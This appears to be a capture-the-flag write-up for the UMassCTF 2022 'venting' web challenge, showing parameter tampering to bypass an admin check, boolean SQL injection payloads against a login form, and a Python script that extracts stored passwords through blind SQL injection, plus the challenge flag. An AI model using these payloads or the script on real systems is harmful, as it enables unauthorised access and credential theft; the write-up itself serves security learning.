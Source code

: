 # UMassCTF 2022 - venting
- Write-Up Author: Tarn

- Flag: UMASS{7H35U55Y1MP0573rCr4CK57H3C0D3}

## **Question:**
venting

>Challenge description

Hmmmm. This website is kinda sus... Can you become the imposter and vent towards the flag?

http://34.148.103.218:4446

## Write up

This is the simple website with some input fields. 

![img](./img/1.png)

When I look at the GET request, there is one parameter for verifying admin. I change the admin parameter from False to True. 

![img](./img/2.png)

![img](./img/3.png)

Great, then I get into another redirect URL http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/success.

![img](./img/4.png)


It looks like Auth bypass, therefore I try some SQL injection payloads and find the result is different.

```
user=' or 1 or 0='1&pass=111
```

![img](./img/5.png)

```
user=' or 0 or 0='1&pass=111
```

![img](./img/6.png)

This is the hints that I can guess the user password by checking the True or False on SQL query. 
Finally I write the script to come out the whole password.

```
import requests

url = 'http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/login'
def get_table():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            #payload = f"' or (substr((select sqlite_version()),{i},1)>char({mid})) or 0='1" admin/
            payload = f"' or (substr((select group_concat(Password) from users),{i},1)>char({mid})) or 0='1"
            data = {
                'user':payload,
                'pass':'111'
            }
            url_t = url
            r = requests.post(url=url_t,data=data)
            
            if 'Invalid login' in r.text:
                high = mid
            if "You'll never log in" in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break

get_table()

```

Bingo! The password is the flag.

![img](./img/7.png)


> UMASS{7H35U55Y1MP0573rCr4CK57H3C0D3}
